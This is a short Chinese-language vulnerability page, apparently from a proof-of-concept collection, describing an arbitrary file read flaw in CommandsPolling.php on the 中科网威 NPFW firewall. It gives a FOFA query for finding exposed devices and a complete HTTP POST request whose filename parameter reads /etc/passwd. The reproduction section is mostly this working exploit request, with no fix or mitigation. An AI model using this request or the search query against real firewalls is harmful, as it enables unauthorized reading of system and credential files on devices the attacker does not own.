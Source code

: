 # 中科网威 NPFW防火墙 CommandsPolling.php 任意文件读取漏洞

## 漏洞描述

中科网威 NPFW防火墙 存在任意文件读取漏洞，由于代码过滤不足，可读取服务器任意文件

## 漏洞影响

<a-checkbox checked>中科网威 NPFW防火墙 </a-checkbox></br>

## FOFA

<a-checkbox checked>"中科网威" && "/direct"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628698968275-7026aca2-33d4-4faa-9352-5a2f9bab7675.png)

发送请求包

```php
POST /direct/polling/CommandsPolling.php HTTP/1.1
Host: 
Cookie: PHPSESSID=014d2705856e1df139772db42ccbaf9f
Content-Length: 47
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

command=ping&filename=%2Fetc%2Fpasswd&cmdParam=
```

![img](../../../.vuepress/public/img/1628699095412-3ee37eb5-54ed-4408-a13e-71159fc36610.png)